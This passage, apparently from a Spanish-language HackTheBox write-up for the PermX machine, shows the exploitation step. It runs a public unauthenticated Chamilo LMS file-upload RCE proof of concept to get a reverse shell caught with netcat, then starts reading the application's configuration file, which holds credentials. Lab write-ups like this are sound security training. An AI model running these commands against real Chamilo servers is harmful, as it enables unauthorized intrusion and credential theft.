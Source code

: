 ### Explotacion 
<p style="text-align: justify;">
Una vez entendida la vulnerabilidad, procedemos a buscar un exploit o, en su caso, programarlo. Para fines prácticos, se utiliza el siguiente exploit:
    </p>

-   [Chamilo LMS Unauthenticated Big Upload File RCE PoC](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

Clonamos el exploit y accedemos a la carpeta, luego procedemos a ejecutar el siguiente comando:

```sh
python3 main.py -u http://lms.permx.htb/ -a revshell
```
Antes de ejecutar el comando, debemos estar en otra terminal y asegurarnos de haber ejecutado el siguiente comando para escuchar en el puerto:

```sh
nc -lnvp [PORT

#Ejemplo
nc -nlvp 4444 
```
Si todo fue exitoso, la terminal donde ejecutamos el exploit debería finalizar de la siguiente manera:

<p align="center">
<img src="/assets/images/MaquinaPermx/pagina4.png">
</p>

Y la terminal que estamos escuchando estaria asi:

```sh
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.11.23] 39654
bash: cannot set terminal process group (1186): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```

Después de investigar en la máquina, encontramos la siguiente información:
```sh
www-data@permx:/var/www/chamilo/app/config$ ls
add_course.conf.dist.php   course_info.conf.php  profile.conf.dist.php
add_course.conf.php        events.conf.dist.php  profile.conf.php
assetic.yml                events.conf.php       routing.yml
auth.conf.dist.php         fos                   routing_admin.yml
auth.conf.php              ivory_ckeditor.yml   routing_dev.yml
config.yml                 mail.conf.dist.php    routing_front.yml
config_dev.yml             mail.conf.php         security.yml
config_prod.yml            migrations.yml        services.yml
configuration.php          mopa                  sonata
course_info.conf.dist.php  parameters.yml.dist

www-data@permx:/var/www/chamilo/app/config$ cat configuration.php
```